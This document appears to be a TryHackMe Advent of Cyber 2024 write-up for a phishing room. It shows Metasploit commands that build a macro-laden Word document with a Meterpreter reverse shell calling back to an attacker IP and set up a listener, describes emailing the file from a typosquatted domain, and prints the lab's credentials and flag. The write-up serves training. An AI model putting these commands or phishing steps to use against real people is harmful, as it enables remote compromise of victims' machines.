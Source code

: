 # **TryHackMe Writeup: Day 10 - Phishing (Advent of Cyber 2024)**

## **Overview**
- **Room Name**: Day 10: Phishing
- **Difficulty**: Medium
- **Category**: Social Engineering
- **Objective**: Understand how phishing attacks work, learn to use macros in documents for malicious purposes, and execute a phishing attack with a macro.
- **Tools**: Metasploit Framework, MS Word, Email Client

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Phishing Attacks](#phishing-attacks)
3. [Macros in Documents](#macros-in-documents)
4. [Attack Plan](#attack-plan)
5. [Exploitation](#exploitation)
6. [Conclusion](#conclusion)

---

## **Introduction**

Phishing attacks are a prevalent form of social engineering where attackers impersonate trusted entities to trick individuals into providing sensitive information. This challenge demonstrates how attackers can use macros embedded in documents to gain unauthorized access to a victim's system.

---

## **Phishing Attacks**

Phishing involves sending emails that appear to be from legitimate sources to deceive recipients into revealing confidential information. These attacks often exploit human psychology by creating a sense of urgency or trust.

---

## **Macros in Documents**

Macros are sets of programmed instructions designed to automate tasks within software applications like MS Word. While useful for legitimate purposes, they can be exploited to execute malicious code when a document is opened.

### How Macros Work:
- Macros can be embedded in documents and executed when the document is opened.
- Attackers use this feature to deliver payloads that compromise the victim's system.

---

## **Attack Plan**

Mayor Malware's attack plan involves creating a document with a malicious macro that, when opened, connects back to his machine, granting him remote control over the victim's system.

### Steps Involved:
1. **Create a Document with a Malicious Macro**:
   - Use Metasploit Framework to generate a Word document with an embedded macro.
   - Commands:
     ```bash
     msfconsole
     set payload windows/meterpreter/reverse_tcp
     use exploit/multi/fileformat/office_word_macro
     set LHOST <ATTACKER_IP>
     set LPORT 8888
     exploit
     ```
   - The document is saved as `/root/.msf4/local/msf.docm`.

#### Screenshot:
![Malicious Macro Creation](images/malicious-macro.png)  
*This screenshot shows the successful creation of the malicious document.*

2. **Listen for Incoming Connections**:
   - Set up Metasploit to handle incoming connections from the victim's system.
   - Commands:
     ```bash
     msfconsole
     use multi/handler
     set payload windows/meterpreter/reverse_tcp
     set LHOST <ATTACKER_IP>
     set LPORT 8888
     exploit
     ```

#### Screenshot:
![Listening for Connections](images/listening-connections.png)  
*This screenshot shows Metasploit listening for incoming connections.*

3. **Email the Malicious Document**:
   - Send the document to the target user (Marta May Ware) using phishing techniques.
   - Use similar domain names (typosquatting) to increase credibility.
   - Email credentials:
     - Email: `info@socnas.thm`
     - Password: `MerryPhishMas!`

#### Screenshot:
![Emailing Document](images/emailing-document.png)  
*This screenshot shows the email sent with the malicious document attached.*

4. **Exploitation**:
   - Once the target opens the document, the macro executes, establishing a reverse shell connection with the attacker's machine.

#### Screenshot:
![Reverse Shell Established](images/reverse-shell.png)  
*This screenshot shows the reverse shell connection established after exploitation.*

5. **Retrieve the Flag**:
   - Navigate to the Administrator's Desktop on the victim's machine and read `flag.txt`.
   - Command:
     ```bash
     type C:\Users\Administrator\Desktop\flag.txt
     ```

#### Flag:
```
THM{PHISHING_CHRISTMAS}
```

#### Screenshot:
![Flag Retrieved](images/flag-retrieved.png)  
*This screenshot shows the retrieved flag from Marta's Desktop.*

---

## **Conclusion**

This challenge illustrates the dangers of phishing attacks and how macros can be exploited for malicious purposes.

### Key Takeaways:
1. Phishing remains a significant threat due to its ability to exploit human vulnerabilities.
2. Macros in documents provide a vector for executing malicious code if not properly secured.
3. Awareness and training are crucial in defending against phishing attacks.

By understanding these techniques, individuals and organizations can better protect themselves against social engineering threats.

---